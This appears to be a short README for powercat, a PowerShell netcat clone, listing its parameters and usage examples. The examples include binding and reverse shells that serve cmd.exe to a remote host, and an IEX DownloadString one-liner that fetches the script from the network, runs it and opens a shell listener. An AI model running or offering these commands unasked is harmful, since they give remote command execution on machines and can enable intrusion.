 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                    [Switch]
    -c    Connect to a listener.                      [String]
    -p    The port to connect to, or listen on.       [String]
    -e    GAPING_SECURITY_HOLE                        [String]
    -t    Timeout option. Default: 60                 [int32]
### Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Shove Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Redirect Output to a file:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Download and Execute Powercat Listener:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe
### Stuff that Doesn't Work (Yet):
    Accepting pipeline input. (cat infile | powercat -c 10.1.1.1 443)
